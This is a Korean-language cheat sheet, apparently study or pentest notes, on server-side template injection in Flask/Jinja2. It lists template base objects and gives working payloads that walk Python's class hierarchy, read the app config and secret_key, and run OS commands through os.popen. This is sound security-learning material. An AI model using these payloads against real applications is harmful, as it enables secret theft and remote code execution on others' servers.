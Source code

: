 ## 1.3. Cheat Sheet

<br>

### 1.3.1. Base Objects

Flask Jinja2 Template 에서 사용할 수 있는 몇 가지 base object 가 존재한다.

Base Objects 를 사용하려면 해당 객체에 대해 미리 정의가 되어있어야 한다.

```python
# Ex)
rv.globals.update(
		url_for=url_for,
		get_flashed_messages=get_flashed_messages,
		config=self.config,
		# request, session and g are normally added with the
		# context processor for efficiency reasons but for imported
		# templates we also want the proxies in there.
		request=request,
		session=session,
		g=g,
)
```

이를 이용한 SSTI Payload 작성은 다음과 같은 형태로 가능하다. 

```python
# Usages
{{**OBJECT**.__class__.mro().__subclasses__()}} 
{{**OBJECT**.__class__.__mro__[1].__subclasses__()}} 
{{**OBJECT**.__class__.__base__.__subclasses__()}}
```

사용할 수 있는 여러가지 Base Object 가 존재한다. 

- Base Objects List ...
    - g
    - request
    - get_flashed_messages
    - url_for
    - config
        
        ```python
        {{ config.items() }}
        {{ config['secret_key'] }}
        ```
        
    - application
    - self
    - cycler
        
        ```python
        {{ cycler.__init__.__globals__.os.popen('id').read() }}
        ```
        
